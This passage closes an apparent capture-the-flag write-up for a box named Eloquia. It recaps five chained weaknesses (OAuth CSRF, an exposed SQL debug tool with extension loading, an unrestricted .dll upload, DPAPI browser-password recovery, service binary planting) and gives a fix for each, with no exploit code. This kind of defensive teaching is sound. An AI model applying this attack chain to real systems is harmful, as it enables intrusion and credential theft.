Looking back at the whole engagement, no individual bug here would be "Insane" on its own — an OAuth CSRF, a debug tool left exposed, an overly-permissive file upload, saved browser passwords, and a racy service restart are all things seen individually on Medium-rated boxes. What makes Eloquia hard is that **each weakness only becomes exploitable because of the one before it**, and recognizing *that* chaining structure is the actual skill being tested.



## Vulnerability-by-Vulnerability Recap & Remediation

| # | Vulnerability | Root Cause | How It Was Found | Real-World Fix |
|---|---|---|---|---|
| 1 | OAuth account-linking CSRF | Missing `state` parameter / no PKCE on the Eloquia↔Qooqle OAuth integration | Observed directly in the Qooqle authorization request during recon | Generate and store a cryptographically random `state` per session on the authorize request; verify it exactly matches on callback before linking or logging in; adopt PKCE even for confidential/server-side clients |
| 2 | Debug tool exposed in production | `django-sql-explorer` left reachable at a predictable URL with `load_extension()` enabled | Discovered at `/dev/sql-explorer/` once admin access was obtained | Never ship internal/debug tooling to production; if unavoidable, gate behind network-level controls (VPN/IP allowlist) in addition to app-level auth; disable SQLite's extension-loading capability entirely unless a specific, audited extension is genuinely required |
| 3 | Unrestricted file upload (article banner) | No server-side validation of file content/type on the "banner image" upload field | Confirmed by successfully uploading a raw `.dll` through the article form | Validate uploads by actual content (magic bytes, re-encode through an imaging library), enforce extension allowlists server-side, and store uploads outside the web root or serve them with headers (e.g. `Content-Disposition: attachment`, no-execute flags) that prevent them from ever being usable as a code artifact |
| 4 | DPAPI-protected credentials recoverable post-compromise | Saved browser passwords are trivially decryptable by *any* code running as the same Windows account | Found via systematic AppData/browser-profile enumeration after achieving RCE as `web` | Don't save credentials in browser password managers on shared/service accounts; use a dedicated secrets manager; apply least-privilege so a compromised service account's DPAPI scope doesn't expose unrelated human users' credentials |
| 5 | Service binary-planting race condition | A custom service's executable sits at a path writable by a low-privileged developer account, and the service is restarted on a predictable cadence with no integrity check | Pieced together from a developer's own Todo.txt notes plus live observation of Scheduled Tasks/Program Files | Restrict write access to service binary directories to the service's own trusted install/update process only (never a regular developer account); enforce code-signing verification before a service launches its own executable; avoid "temporary" restart-based workarounds for performance bugs — fix the underlying bug instead |
